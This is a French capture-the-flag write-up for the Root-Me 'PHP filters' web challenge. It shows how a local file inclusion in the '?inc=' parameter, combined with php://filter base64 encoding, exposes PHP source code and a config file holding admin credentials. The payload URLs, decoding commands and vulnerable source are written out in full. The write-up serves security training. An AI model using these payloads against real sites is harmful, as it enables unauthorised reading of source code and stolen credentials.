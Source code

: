 # PHP Filters

La page du [challenge](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-filters)

## Analyse

On remarque d'une attaque LFI est possible dans l'URL sur la variable `?inc=`.

C'est gràce aux cappers PHP que l'on va pouvoir récupérer le contenue de fichier php, codé en base64.

## Attaque

En cliquant sur les liens _home_ et _login_, on remarque dans la variabl _inc_ de l'URL deux pages php, **acceuil.php** et **login.php**.

On commence par récupérer le contenue du fichier **login.php*.
```
http://chall/?inc=php://filter/convert.base64-encode/resource=index.php
PD9waHAgaW5jbHVkZSgiY2gxMi5waHAiKTs/Pg==
```

On décode le résultat en base64.
```
$ echo "PD9waHAgaW5jbHVkZSgiY2gxMi5waHAiKTs/Pg==" | base64 -d
<?php include("ch12.php");?>
```

On récupère le contenue du fichier **ch12.php**.
```
http://chall/?inc=php://filter/convert.base64-encode/resource=ch12.php
PD9waHAKCiRpbmM9ImFjY3VlaWwucGhwIjsKaWYgKGlzc2V0KCRfR0VUWyJpbmMiXSkpIHsKICAgICRpbmM9JF9HRVRb...
```

On le décode.
```php
<?php
$inc="accueil.php";
if (isset($_GET["inc"])) {
    $inc=$_GET['inc'];
    if (file_exists($inc)){
	$f=basename(realpath($inc));
	if ($f == "index.php" || $f == "ch12.php"){
	    $inc="accueil.php";
	}
    }
}

include("config.php");

echo '
  <html>
  <body>
    <h1>FileManager v 0.01</h1>
    <ul>
	<li><a href="?inc=accueil.php">home</a></li>
	<li><a href="?inc=login.php">login</a></li>
    </ul>
';
include($inc);
echo '
  </body>
  </html>
';
?>
```

On recommence les même étapes avec le fichier **config.php**. On aurait pu tester dès le début avec le fichier _config.php_, car c'est un nom par défaut pour ce genre de fichier.
```
http://chall/?inc=php://filter/convert.base64-encode/resource=config.php

$ echo "PD9waHAKCiR1c2VybmFtZT0iYWRtaW4iOwokcGFzc3dvcmQ9IkRBUHQ5RDJta3kwQVBBRiI7Cgo/Pg==" | base64 -d
<?php
$username="admin";
$password="************";
?>% 
```
